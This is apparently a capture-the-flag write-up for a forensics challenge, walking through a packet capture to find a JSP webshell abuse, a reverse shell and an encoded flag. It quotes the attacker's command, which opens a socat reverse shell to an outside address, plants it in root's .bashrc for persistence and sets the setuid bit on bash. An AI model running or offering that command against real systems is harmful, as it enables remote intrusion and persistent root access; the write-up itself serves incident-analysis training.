 ```yaml
---
description: 2022 HTB HackTheBoo CTF - Forensics - Wrong Spooky Season Writeup
---
```


# Forensics - Wrong Spooky Season

For this challenge we got a single PCAP. As usual with a PCAP, we opened it in Wireshark so we can see whats inside.

It wasn't a very large PCAP and just skimming through we could see some unusual traffic. Take a look at the picture below and see if you can spot whats wrong here:

<figure><img src="../../.gitbook/assets/HTBctWrongSpookySeason1.PNG" alt=""><figcaption></figcaption></figure>

If you didnt spot it, its the cmd=\*. Seeing an argument for cmd= anything, let alone 'whoami' and 'id', is a red flag. This was some sort of jsp webshell that an attacker was abusing. Following this along we see the attacker get a reverse shell and right-clicking and following the traffic shows us what is being communicated to and from the attacker over this connection.

<figure><img src="../../.gitbook/assets/HTBctWrongSpookySeason2.PNG" alt=""><figcaption></figcaption></figure>

As you can see in blue the attacker is doing some very suspicious commands that would definitely catch the attention of anyone monitoring this system. There's a particularly long command at the end though where the attacker runs:

```
socat TCP:192.168.1.180:1337 EXEC:sh' > /root/.bashrc && echo "==gC9FSI5tGMwA3cfRjd0o2Xz0GNjNjYfR3c1p2Xn5WMyBXNfRjd0o2eCRFS" | rev > /dev/null && chmod +s /bin/bash
ls -lha
```

This contains a base64 encoded, and then reversed, payload of some sort. Pasting it into Cyberchef and decoding it shows us the flag.

PWNED

